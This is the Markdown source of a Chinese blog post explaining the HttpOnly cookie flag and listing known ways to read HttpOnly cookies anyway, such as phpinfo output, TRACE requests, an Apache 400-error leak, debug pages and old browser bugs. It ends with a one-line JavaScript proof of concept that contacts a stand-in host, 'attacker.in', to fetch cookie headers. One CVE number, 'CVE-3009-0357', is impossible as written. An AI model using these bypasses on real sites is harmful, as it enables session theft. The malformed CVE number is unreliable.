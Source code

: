 ```yaml
---
layout: post
title: "HttpOnly的那些事"
description: "HttpOnly的来源，发展和弱点"
category: web
tags: ["websecurity","xss"]
published: true
comments: true
date: 2013-03-24 20:55:47 +0800
---
```

{% include JB/setup %}

### HttpOnly简介
故名思议，`HttpOnly`是指仅在`HTTP`层面上传输的`Cookie`，当设置了`HttpOnly`标志后，客户端脚本就无法读写该`Cookie`，这样能有效的防御`XSS`攻击。`HttpOnly`是由微软在`2002`年首先在`Internet Explorer 6 SP1`上实现。根据微软的[描述](http://msdn2.microsoft.com/en-us/library/ms533046.aspx)，`HttpOnly`是`HTTP Set-Cookie`头中的一个附加标志，下面的例子就是一个头信息中设置了`HttpOnly Cookie`。
 
    Set-Cookie: USER=123; expires=Wednesday, 09-Nov-99 23:12:40 GMT; HttpOnly

目前，基本上所有的浏览器和web框架都支持`HttpOnly`。

<!--more-->

### 得到HttpOnly Cookie
##### phpinfo信息
`phpinfo`页面可以包含了`cookie`信息，其中同样存在`HttpOnly Cookie`，如下图。
![phpinfo()信息]({{ site.static_url }}/2013-03-25-01.png)
##### 支持TRACE方法的服务器
`Apache`支持的一个`Header`是`TRACE`，`TRACE`一般是用于调试，他会将请求头作为`HTTP Response Body`返回。利用这个特性，可以把`HttpOnly Cookie`读出来。不过目前各厂商已经禁止通过`Ajax`发送`TRACE`请求。
##### CVE-2012-0053
`Apache 2.2.x`多个版本没有严格限制`HTTP`请求头信息，`HTTP`请求头信息超过`LimitRequestFieldSize`长度时，服务器返回`400`错误，并在返回信息中将出错的请求头内容输出。利用这个特性，可以得到`HttpOnly Cookie`。
##### Django等一些web框架的调试页面
开启了调试模式的一些框架，会将程序的信息输出，其中就有`Cookie`信息。
##### CVE-3009-0357
`Firefox <= 1.9.1`在处理`HttpOnly Cookies`时存在bug，通过`getResponseHeader()`得不到`HttpOnly Cookie`，但是通过`getAllResponseHeaders()`可以得到。
##### Java getHeaderField
POC:

```javascript
    alert(new java.net.URL('http://attacker.in/xss/cookie.php').openConnection().getHeaderField('set-cookie'));
```

### 参考
1. [https://www.owasp.org/index.php/HttpOnly](https://www.owasp.org/index.php/HttpOnly)
2. [http://seckb.yehg.net/2012/06/xss-gaining-access-to-httponly-cookie.html](http://seckb.yehg.net/2012/06/xss-gaining-access-to-httponly-cookie.html)
3. [https://bugzilla.redhat.com/show_bug.cgi?id=785069](https://bugzilla.redhat.com/show_bug.cgi?id=785069)
4. [https://bugzilla.mozilla.org/show_bug.cgi?id=380418](https://bugzilla.mozilla.org/show_bug.cgi?id=380418)
